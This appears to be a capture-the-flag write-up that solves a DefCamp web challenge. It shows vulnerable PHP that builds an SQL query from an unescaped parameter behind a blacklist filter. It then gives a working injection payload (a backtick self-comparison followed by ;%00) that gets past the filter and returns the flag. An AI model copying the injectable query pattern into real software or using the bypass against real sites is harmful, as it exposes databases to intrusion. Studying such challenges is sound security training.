 **View Source Code**

By viewing the code at `https://brave.dctf-quals-17.def.camp/index.php~`, we can retrieve the details
```
<?php

$db  = mysqli_connect('localhost','web_brave','','web_brave');

$id  = @$_GET['id'];
$key = $db->real_escape_string(@$_GET['key']);

if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected

$query = "SELECT `id`,`name`,`key` FROM `users` WHERE `id` = $id AND `key` = '".$key."'";
$q = $db->query($query);

if($q->num_rows) {
    echo '<h3>Users:</h3><ul>';
    while($row = $q->fetch_array()) {
        echo '<li>'.$row['name'].'</li>';
    }

    echo '</ul>';
} else {
    die('<h3>Nop.</h3>');
}
```
based on the `$id` and `$key`, the possible point of entry will most likely be `$id`, and by studying the conditions in the preg_match
`%`, `0`, `;` and `` ` `` are not checked.

**Constructing the query**
After analyzing the query, we can form a similar construct to the SQL `1=1`,

```
`id` = `id`
```
has the same effect as `1=1`

Lastly, we want to ignore `$key` param and end the query after inserting `$id`, hence we append `;%00` at the back.

**Conclusion**
Submitting ```https://brave.dctf-quals-17.def.camp/index.php?id=`id`;%00``` will give us the flag

Users:
- Try Harder
- DCTF{602dcfeedd3aae23f05cf93d121907ec925bd70c50d78ac839ad48c0a93cfc54}

